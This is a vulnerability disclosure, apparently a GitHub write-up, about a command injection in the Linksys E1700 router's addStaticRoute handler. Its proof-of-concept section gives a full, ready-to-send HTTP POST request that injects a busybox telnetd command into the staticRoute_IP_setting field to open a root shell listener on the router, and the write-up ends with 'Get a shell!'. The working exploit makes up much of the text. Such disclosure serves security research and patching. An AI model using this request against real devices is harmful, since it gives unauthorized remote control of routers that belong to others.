


# Linksys Vulnerability

Vendor:Linksys

Product:E1700

Version:E1700(1.0.0.4.003)

Type:Remote Command Execution

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)

> There is also a stack overflow vulnerability


## Vulnerability description

We found an command Injection vulnerability in Linksys router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `mod_form.so` binary:

In `addStaticRoute` function, `staticRoute_IP_setting、staticRoute_Netmask_setting、staticRoute_Gateway_setting、staticRoute_Metric_setting` is directly passed by the attacker, so we can control the `staticRoute_IP_setting、staticRoute_Netmask_setting、staticRoute_Gateway_setting、staticRoute_Metric_setting` to attack the OS.

<div  align="center"></div>

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.


## PoC

We set `staticRoute_IP_setting` as **`busybox telnetd -l /bin/sh -p 8888`** , and the router will excute it,such as:

```http
POST /goform/addStaticRoute HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 566
Origin: http://192.168.1.1
Connection: keep-alive
Referer: http://192.168.1.1/network/advrouting.shtml;session_id=fbtembKKz3hhxiHitozvvCUKxFUdcTjG
Upgrade-Insecure-Requests: 1

token=BYkl2GyhzEcdwwbaOzpx&need_reboot=0&delete_route=00000000000000000000&staticRoute_IP_setting=`busybox telnetd -l /bin/sh -p 8888`&staticRoute_Netmask_setting=0.0.0.0&staticRoute_Gateway_setting=0.0.0.0&staticRoute_Metric_setting=0&staticRoute_If_setting=1&RIPenable=0&NATType=1&rec_index=1&edit=0&nat_enable=1&route_page=0&route_name=&route_ipaddr_0=0&route_ipaddr_1=0&route_ipaddr_2=0&route_ipaddr_3=0&route_netmask_0=0&route_netmask_1=0&route_netmask_2=0&route_netmask_3=0&route_gateway_0=0&route_gateway_1=0&route_gateway_2=0&route_gateway_3=0&route_ifname=1
```


## Result

Get a shell!

<div  align="center"></div>

